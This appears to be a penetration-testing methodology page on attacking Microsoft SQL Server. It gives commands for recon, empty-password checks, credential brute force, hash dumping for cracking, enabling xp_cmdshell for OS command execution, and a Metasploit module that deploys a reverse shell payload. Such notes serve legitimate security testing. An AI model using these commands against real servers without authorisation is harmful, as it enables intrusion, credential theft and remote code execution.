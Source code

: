 # MSSQL - Methodology

### Service recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The Metasploit mssql_ping module attempts to retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the
nmap nse script *ms-sql-empty-password.nse* can be used to quickly try to
connect using the sa account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The metasploit auxiliary/scanner/mssql/mssql_login module can be used to brute
force credentials for the service. The BLANK_PASSWORDS option is worth setting
to true.  

The patator tool can be used as well to brute force credentials on the service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The sqsh CLI tool can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The **DBeaver** GUI tool can be used to simply access the database content without
knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the nmap
nse script *ms-sql-dump-hashes.nse* can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
John-the-ripper.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server.

